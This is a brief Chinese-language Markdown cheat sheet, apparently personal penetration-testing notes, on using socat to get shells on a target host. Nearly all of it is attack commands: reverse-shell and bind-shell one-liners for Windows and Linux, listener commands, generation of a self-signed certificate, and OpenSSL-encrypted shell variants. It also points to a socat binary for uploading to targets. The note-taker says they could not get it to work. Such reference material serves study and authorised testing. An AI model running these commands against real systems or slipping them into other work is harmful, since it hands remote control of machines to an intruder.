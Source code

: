 # Socat

## 介绍

socat 和 netcat 很相似

`自己没实验成功不知道啥原因`

## 反向 SHELL

```shell
$ socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes  # Windows
$ socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"			 # Linux

socat TCP-L:<port> -		# 监听
```

## 绑定 SHELL

```shell
socat TCP-L:<PORT> EXEC:powershell.exe,pipes		# Windows
socat TCP-L:<PORT> EXEC:"bash -li"					# Linux

socat TCP:<TARGET-IP>:<TARGET-PORT> - 				# 连接
```

![img](https://i.imgur.com/etAuYzz.png)

## 稳定

> `此技术仅限于 Linux 目标`
>
> * WIndows 我们可以使用一个 Socat 二进制文件 --> [链接](https://github.com/JTZ-a/netdisc/blob/main/socat)

我们需要将其上传到目标主机上

## 加密

> socat 可以通过证书加密传输内容

```shell
$ openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt	# 生成证书
$ cat shell.key shell.crt > shell.pem

# 交互 SHELL
$ socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -		# 监听
$ socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash	# 目标主机


# 绑定 SHELL
$ socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes  # 目标主机
$ socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -	# 攻击主机
```
